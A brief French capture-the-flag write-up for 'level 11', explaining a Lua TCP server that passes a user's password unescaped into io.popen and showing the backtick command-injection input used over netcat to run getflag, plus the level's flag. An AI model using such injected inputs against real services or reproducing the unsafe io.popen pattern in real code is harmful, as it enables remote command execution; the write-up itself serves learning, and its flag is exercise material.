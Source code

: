 # 11 Commande Injection

*  _Lua_ est un langage de script libre

Ce script implémente un serveur TCP simple qui demande à l'utilisateur un mot de passe. Il hache ce mot de passe avec SHA1 et compare le résultat avec un hachage prédéfini. Si le mot de passe est correct (c'est-à-dire que son hachage correspond à la valeur donnée), le serveur répond par un message de félicitations. Sinon, il répond par un message d'erreur.


### Commandes réalisées

```bash
cat level11.lua
nc localhost 5151
`getflag > /tmp/answer`
cat /tmp/answer
```

### Injection à cause de la vulnérabilité
La vulnérabilité réside dans l'utilisation de io.popen pour exécuter une commande shell avec le mot de passe (pass) directement injecté dans la ligne de commande.

`prog = io.popen("echo "..pass.." | sha1sum", "r")`


### Answer : fa6v5ateaw21peobuub8ipe6s
